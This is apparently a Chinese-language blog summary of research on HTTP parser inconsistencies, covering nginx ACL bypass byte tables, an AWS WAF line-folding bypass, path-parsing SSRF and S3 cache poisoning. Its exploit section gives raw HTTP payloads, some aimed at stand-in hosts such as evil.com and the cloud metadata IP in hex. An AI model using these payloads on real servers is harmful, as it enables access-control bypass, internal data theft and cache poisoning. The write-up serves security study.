

# Exploiting HTTP Parsers Inconsistencies

## 分析

这篇文章主要讲的就是利用HTTP解析器的不一致性来实行攻击，涉及到Web服务器、反向代理服务器、缓存服务器、AWS WAF等等。


绕过nginx acl利用的是不同语言中对trim的实现，例如对于`/nginx%ao0`，nginx的trim不会去掉`%a0`但是node.js中trim会去掉`%a0`。防止这种攻击就是nginx 的acl不用`=`，用`~`：

```conf
location ~* ^/admin {
    deny all;
}
```


绕过 AWS ACL WAF则是要利用`line folding`技术：行折叠是指使用字符`\x09`和`\x20`将长的头部值分割成多行以提高可读性的做法。但是AWS WAF并不能识别这个技术，例如下面的图，将`\x09`那一行解释成了一个http头部，导致绕过。AWS在2022已经修复这个漏洞。



在**不存在反向代理**的情况下，如果代码写的有问题且相应的服务器的路径解析可能存在错误，造成SSRF。

例如python可以解析`@/`：

```http
GET @/ HTTP/1.1
Host: target.com
Connection: close

```

如果代码的`base url`最后面没有`/`，且直接将请求的path拼接上去，则可能造成ssrf：

```python
from flask import Flask
from requests import get

app = Flask('__main__')
SITE_NAME = 'https://google.com/'

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def proxy(path):
  return get(f'{SITE_NAME}{path}').content

app.run(host='0.0.0.0', port=8080)

```


SpringBoot的绕过比较有意思，是这样：`;@evil.com/url`，利用的是SpringBoot的Matrix parameters，且Spring支持Matrix parameters的分割字符串`;`可以在第一个`/`前面，根据我的理解就是虽然Spring解析的路径还是第一个`/`起的那部分，即`/url`，但`request.getRequestURI();`仍然可以获取到`;@evil.com/url`。


最后提到了关于aws s3的HTTP Desync Cache Poisoning Attacks。请求一个aws s3存储桶时，AWS 基础设施会检查 Host 头以确定目标存储桶。如果请求的domain和请求的host头部不一样，aws将忽略domain仅获取host中指定的存储桶，这种做法在云服务中很常见，它帮助服务提供商在后端灵活地管理和路由请求，而不必严格依赖于URL中的域名。

但是对于缓存服务器来说，他可能是按`path`作为key，也可以会利用`host`作为`key`。而aws s3解析host时只用第一个host且会忽略：`\x1f`, `\x1d`, `\x0c`, `\x1e`, `\x1c`, `\x0b`。因此对于下面的情况：

```http
GET / HTTP/1.1
[\x1d]Host: evilbucket.com
Host: example.bucket.com
Connection: close

```

缓存服务器首先将`[\x1d]Host: evilbucket.com`作为key，但是因为有`\x1d`，会认为这个host是无效，的从而缓存`example.bucket.com`，而aws s3会去掉`\x1d`，从而认为访问的是`evilbucket.com`，返回的是`evilbucket.com`的内容，导致了缓存服务器的`example.bucket.com`键缓存了`evilbucket.com`的内容，导致缓存投毒。

## EXP

### 绕过nginx acl

| Nginx Version | **Node.js Bypass Characters** |
| ------------- | ----------------------------- |
| 1.22.0        | `\xA0`                        |
| 1.21.6        | `\xA0`                        |
| 1.20.2        | `\xA0`, `\x09`, `\x0C`        |
| 1.18.0        | `\xA0`, `\x09`, `\x0C`        |
| 1.16.1        | `\xA0`, `\x09`, `\x0C`        |


| Nginx Version | **Flask Bypass Characters**                                  |
| ------------- | ------------------------------------------------------------ |
| 1.22.0        | `\x85`, `\xA0`                                               |
| 1.21.6        | `\x85`, `\xA0`                                               |
| 1.20.2        | `\x85`, `\xA0`, `\x1F`, `\x1E`, `\x1D`, `\x1C`, `\x0C`, `\x0B` |
| 1.18.0        | `\x85`, `\xA0`, `\x1F`, `\x1E`, `\x1D`, `\x1C`, `\x0C`, `\x0B` |
| 1.16.1        | `\x85`, `\xA0`, `\x1F`, `\x1E`, `\x1D`, `\x1C`, `\x0C`, `\x0B` |


| Nginx Version | **Spring Boot Bypass Characters** |
| ------------- | --------------------------------- |
| 1.22.0        | `;`                               |
| 1.21.6        | `;`                               |
| 1.20.2        | `\x09`, `;`                       |
| 1.18.0        | `\x09`, `;`                       |
| 1.16.1        | `\x09`, `;`                       |


对于PHP-FPM：`/admin.php/index.php`。当两个.php文件位于HTTP请求的相同路径名中时，PHP将匹配第一个文件，忽略斜杠之后的所有内容。这种技术只有在第二个PHP文件（在此例中为index.php）存在于服务器中时才有效。


### 绕过 AWS ACL WAF

利用line folding技术：


虽然AWS已修复，但是或许可以应用在其他的场景中。

### 路径解析错误导致服务器端请求伪造

python:

```http
GET @evildomain.com/ HTTP/1.1
Host: target.com
Connection: close

```

SpringBoot：

```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close

```

PHP内置Web服务器（基本遇不到），IP用十六进制形式（因为对`.`有过滤）：

```http
GET *@0xa9fea9fe/ HTTP/1.1
Host: target.com
Connection: close

```

### aws s3缓存投毒

```http
GET / HTTP/1.1
[\x1d]Host: evilbucket.com
Host: example.bucket.com
Connection: close


```


## References

[(Research) Exploiting HTTP Parsers Inconsistencies](https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies)